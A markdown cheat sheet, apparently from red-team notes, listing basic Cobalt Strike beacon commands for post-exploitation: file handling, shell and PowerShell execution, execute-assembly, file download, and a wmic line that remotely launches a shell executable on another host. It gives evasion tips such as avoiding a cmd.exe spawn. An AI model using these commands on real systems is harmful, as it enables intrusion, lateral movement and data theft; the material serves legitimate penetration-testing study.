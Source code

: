 # 04 - Basic Commands

Search Tag(s): #command-and-control #post-exploitation #cobalt-strike

## 4.1 - Navigation

Change directories.

```
beacon> cd <drive_letter>:\path\to\directory
```

## 4.2 - File Manipulation

Create directory.

```
beacon> mkdir C:\path\to\new_directory\
```

Copy file.

```
beacon> cp C:\path\to\file.txt C:\path\to\copied_file.txt
```

Move file.

```
beacon> mv C:\path\to\file.txt C:\path\to\moved_file.txt
```

Delete file.

```
beacon> rm C:\path\to\file.txt
```

## 4.3 - Sleep and Jitter

Set the sleep time for executing beacon commands with delay. If `sleep` is `0` it becomes interactive mode.

```
beacon> sleep <seconds> <jitter>

beacon> sleep 15 30
```

## 4.4 - List files or directories

```
beacon> ls
```

## 4.5 - Execute Shell Commands

Execute any `shell` command that the beacon spawns a process `cmd.exe`.

```
beacon> shell <command> [arguments]

beacon> shell dir /s /b c:\ | findstr "explorer.exe"
```

Spawns a `cmd.exe` process but doesn't print the output

```
beacon> execute <command> [arguments]
```

Execute commands without spawning `cmd.exe` except the running process comes from the `conhost.exe`. This is highly recommended when you perform post exploitation activities.

```
beacon> run <command> [args]

beacon> run arp -a

beacon> run wmic.exe /node:<IP> /user:<username> /password:<password> win32_process call create "C:\path\to\shell.exe"
```

Spawns a child process of `powershell.exe`.

```
beacon> powershell <cmdlet> [args]
```

Executes unmanaged powershell command. Make sure to change the process when using the `spawnto` command.

```
beacon> powerpick <cmdlet> [args]
```

## 4.6 - Execute Program

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`

```
beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [arguments]
```

## 4.7 - Upload and Download Files

Upload file

```
beacon> upload /path/to/local/file.txt C:\path\to\remote\file.txt
```

Download file

```
beacon> download C:\path\to\file.txt
```

Check file downloads

```
beacon> downloads
```

Cancel file download(s)

```
beacon> cancel <file | *>
```

## 4.6 - Jobs Queue

Queue jobs

```
beacon> jobs
```

Kill job ID

```
beacon> jobkill <jid>
```